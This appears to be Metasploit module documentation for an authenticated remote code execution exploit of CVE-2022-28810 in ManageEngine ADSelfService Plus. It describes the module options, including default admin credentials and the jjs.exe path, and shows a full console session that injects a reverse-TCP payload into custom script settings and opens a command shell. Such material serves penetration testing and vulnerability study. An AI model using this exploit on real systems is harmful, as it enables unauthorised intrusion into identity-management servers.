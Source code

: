 
## Options

### USERNAME

The ManageEngine ADSelfService Plus administrator's username ("admin" by default).

### PASSWORD

The ManageEngine ADSelfService Plus administrator's password ("admin" by default).

### JJS_PATH

The path to `jjs.exe`. Custom scripts use a working directory of the ADSelfService Plus
`/bin/` directory, so `jjs.exe` should be found up one directory and down into the Java
installation packaged with ADSelfService Plus. This script defaults the value to
`..\\jre\\bin\\jjs.exe`.

## TARGET_RESET

If set to true, instead of dropping a payload into the custom scripts fields, the module
will disable custom scripts and clear the custom scripts field. If set to false, the module
will enable custom scripts and insert the configured payload.

## Scenarios

### Successful exploitation of ADSelfService Plus 6121 on Windows 10 over HTTP

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810
[*] Using configured payload cmd/windows/jjs_reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set RHOST 10.0.0.20
RHOST => 10.0.0.20
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > check
[*] 10.0.0.20:8888 - The target appears to be vulnerable. This determination is based on the version string: 6121.
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > run
[*] Exploit running as background job 0.

[*] Running automatic check ("set AutoCheck false" to disable)
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [+] The target appears to be vulnerable. This determination is based on the version string: 6121.
[+] Authentication successful
[*] Requesting policy list from /ServletAPI/configuration/policyConfig/getPolicyConfigDetails
[*] Requesting policy details for okhuman.ninja
[*] Enabling custom scripts and inserting the payload
[*] Posting updated policy configuration to /ServletAPI/configuration/policyConfig/setAPCDetails
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.0.0.2:4444 

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > 
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > [*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.20:49940 ) at 2022-04-19 08:47:28 -0700

msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2022_28810) > sessions 1
[*] Starting interaction with 1...


Shell Banner:
```

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe